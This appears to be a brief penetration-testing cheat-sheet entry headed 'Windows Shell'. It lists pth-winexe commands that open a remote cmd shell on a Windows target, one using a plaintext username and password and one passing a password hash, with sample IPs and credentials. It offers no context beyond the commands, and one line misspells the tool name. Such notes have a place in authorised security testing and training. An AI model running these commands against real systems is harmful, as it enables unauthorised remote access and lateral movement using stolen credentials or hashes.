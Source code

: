 # Windows Shell

## pth-winexe

### With Pass

pht-winexe -U <user>%<pass> //Target_IP cmd

`pth-winexe -U bob%alice //172.10.1.60 cmd`

### Pass The Hash 

`pth-winexe -U bob%hash //172.16.1.60 cmd`

